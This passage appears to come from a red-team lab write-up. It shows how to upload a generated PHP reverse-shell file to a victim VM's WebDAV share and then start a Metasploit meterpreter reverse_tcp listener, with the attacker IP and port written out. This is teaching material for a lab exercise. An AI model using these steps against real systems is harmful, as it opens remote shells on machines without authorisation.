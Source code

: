 - Once `open-shell.php` is generated then you can copy it into `dav://192.168.1.105/webdav/` from the browser - this can be done from Kali Linux as you are now already connected to the victim's machine 

![](Red-Team-images/payload-pasted.png)


- Now in Kali VM run **Metasploit** and run the following commands to prepare for listening and being ready to accept any retrograde connection coming from Capstone VM(victim). 

- `msfconsole`
- `set payload php/meterpreter/reverse_tcp`
- `set lhost 192.168.1.90` notice that there is no "=" between lhost and ip
- `set lport 666`
- `show options`
- `run`

![](Red-Team-images/setting-up-meterpreter.png)
